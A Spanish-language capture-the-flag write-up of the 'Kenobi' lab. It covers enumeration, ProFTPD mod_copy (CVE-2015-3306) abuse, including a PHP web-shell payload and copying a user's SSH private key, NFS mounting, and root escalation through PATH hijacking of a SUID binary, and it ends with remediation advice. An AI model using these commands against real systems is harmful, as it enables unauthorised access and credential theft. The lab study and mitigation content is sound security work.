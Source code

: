 # Kenobi
Room interesante enumeracion al principio , exploit diferente  a lo común ya que no es tirar el exploit del CVE, si no mas bien saber como usarlo a tu favor y privesc personalizada

Interesntes: CVE 2015-3306 , Path manipulation
## Initial Scan 
```
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      35429/udp   mountd
|   100005  1,2,3      38895/udp6  mountd
|   100005  1,2,3      46771/tcp6  mountd
|   100005  1,2,3      47749/tcp   mountd
|   100021  1,3,4      37411/tcp6  nlockmgr
|   100021  1,3,4      45275/tcp   nlockmgr
|   100021  1,3,4      46996/udp   nlockmgr
|   100021  1,3,4      56538/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     2-3 (RPC #100227)
34743/tcp open  mountd      1-3 (RPC #100005)
39631/tcp open  mountd      1-3 (RPC #100005)
45275/tcp open  nlockmgr    1-4 (RPC #100021)
47749/tcp open  mountd      1-3 (RPC #100005)

```
## Enum
### FTP
Version vulnerable a CVE 2015-3306 
```
site cpfr /proc/self/cmdline
site cpto /tmp/.<?php passthru($_GET['cmd']);?>
site cpfr /tmp/.<?php passthru($_GET['cmd']);?>
site cpto /var/www/html/backdoor.php
```
Probamos eso pero no podemos hacer la copia a final, aun asi sabemos que es vulnerable asi que no esta todo perdido, exploremos esto mas tarde
### SMB
Veamos los shares
```
	print$          Disk      Printer Drivers
	anonymous       Disk      
	IPC$            IPC       IPC Service (kenobi server (Samba, Ubuntu))
```
Y nos descargamos todo lo que haya en anonymous
```
 smbget smb://10.10.117.123//anonymous -R
```
Y obtenemos un log.txt, donde hay un par de lineas  interesantes
```
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
```
### Mountd
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount IP
```
Veremos que esta montado /var

## Explotation

El plan es el siguiente, copiamos la clave a /var/tmp y montamos /vat/tmp en nuestra máquina
### FTP
```
ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /var/tmp/id_rsa
```
### Montaje
```
sudo mount 10.10.117.123:/var kenobi/
```
### SSH
```
ssh -i id_rsa kenobi@10.10.117.123
```
## Privesc
Buscamos SUID binarys y encontramos uno poco comun
```
/usr/bin/menu
```
Mirando las strings encontramos las 3 siguientes
```
curl -I localhost
uname -r
ifconfig
```
Dado que los comandos no estan con su ruta al completo podemos ejecutar un PATH manipulation
```
cp /bin/bash /tmp/ifconfig
PATH=/tmp:$PATH
 ./../usr/bin/menu 
```
Y ya tenemos shell como root

# Analisis de la intrusion
### SMB Null Sesion
La Null Sesion esta habilitada, de modo que tenemos acceso a archivos compartidos con información sensible sin necesidad de tipo alguno de autenticación
### CVE 2015-3306
El sistema permite copiar archivos sin necesidad de estar autenticados
### SUID 
Existe un SUID en el archivo de /usr/bin/menu lo que permite la ejecución de un pequeño subset de comandos como root
### Path Manipulation
A la hora de hacer las llamadas a funciones del sistema no se utiliza la ruta completa, lo que permite manipular el PATH , ejecutando cualquier comando de esta manera.

# Solucion
### SMB Null Sesion
Añadir las dos siguientes lineas a smb.conf deberia mitigar esta enumeracion lo cual dificultaria el reconocimiento de la misma por parte de los atacantes
```
map to guest = Never
restrict anonymous = 2
```
### CVE 2015-3306
Para mitigar el impacto lo mejor que podemos hacer es parchear a la siguiente versión, si no fuese posible retirar permisos de lectura a frpuser a archivos criticos, o al menos el de escritura en zonas que pueden ser leidas desde el exterior
### SUID
El SUID aqui es inecesario ya que los 3 binariso pueden ser usados como usuario común sin problema, lo ideal seria retirarlo
### Path Manipulation
Para solventar esto se puede hacer 2 cosas distintas , la primera en el binario de menu cambiar las rutas por rutas absolutas de modo que no se pueda ejecutar en otro path , la otra opcion es hacer del path una variable de solo lectura
